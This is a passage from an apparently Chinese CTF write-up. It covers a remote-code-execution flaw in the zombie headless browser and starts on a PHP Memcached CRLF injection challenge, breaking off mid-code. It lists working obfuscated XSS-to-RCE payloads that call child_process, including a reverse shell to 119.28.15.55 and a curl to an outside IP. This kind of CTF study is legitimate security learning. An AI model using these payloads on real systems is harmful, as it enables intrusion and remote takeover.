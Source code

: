 ```javascript
接下来，创建了一个名为"browser"的zombie浏览器实例，并设置了两个属性：

"waitDuration"属性：表示等待时间，这里设置为5秒钟。
"localAddress"属性：表示本地IP地址，这里设置为0。
然后，通过"setCookie"方法设置了一个名为"admin"的cookie，该cookie的域名为"127.0.0.1"，路径为"/"，并且设置了"HttpOnly"属性为"true"，表示该cookie只能通过HTTP协议访问。
 最后，通过"visit"方法访问了"http://127.0.0.1/view"这个URL，并在控制台输出了"Visited: http://127.0.0.1/view"。这里使用了回调函数来处理页面访问完成后的操作。
```

猜测肯定就是zombie这个第三方模块的漏洞，直接搜zombie rce漏洞

https://blog.csdn.net/qq_60986212/article/details/123020871  找到这篇文章发现这个考点以前考过

```javascript
<script>
var a='const';var b='ructor';var c=[a,b].join('');
var d='return p';var e='rocess';var f=[d,e].join('');
var h='child_p';var i=[h,e].join('');
var j='th';var k='is';var l=[j,k].join('');
x= clearImmediate [c][c][c][c](f)();y=x.mainModule.require(i);z=y.execSync('whoami').toString();document.write(z);
</script>

或者   execSync('bash -c \"bash -i >& /dev/tcp/119.28.15.55/2233 0>&1\"')

<script>
var h='child_p';var e='rocess';var i=[h,e].join('');
x=clearImmediate[`${`${`constructo`}r`}`][`${`${`constructo`}r`}`][`${`${`constructo`}r`}`]([`${`${`return proces`}s`}`])();y=x.mainModule.require(i);z=y.execSync('cat /flag').toString();document.write(z);
</script>

<script>document.write(this["constructor"]["constructor"]("return(global.process.mainModule.constructor._load('child_process').execSync('curl http://114.116.119.253:7777').toString())")());</script>

<script>document.write(this["constructor"]["constructor"]("return(global.process.mainModule.constructor._load('child_process').execSync('ls / > data.html').toString())")());</script>   
这一种通过题目的html来达到回显的效果，其他都可以直接反弹shell
```



##  Bad Memcached

考点：PHP Memcached的CRLF注入

又又又又是web✌出的题

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$search=$_POST["search"];
$memcache = new Memcached();
$memcache->addServers(array(
    array('memcached',11211)
));
function search($keyword){
    global $memcache;
    $v=$memcache->get($keyword);
    var_dump($v);
}
class Meeeeeeeemcached{
    public $key;
    public function __construct()
```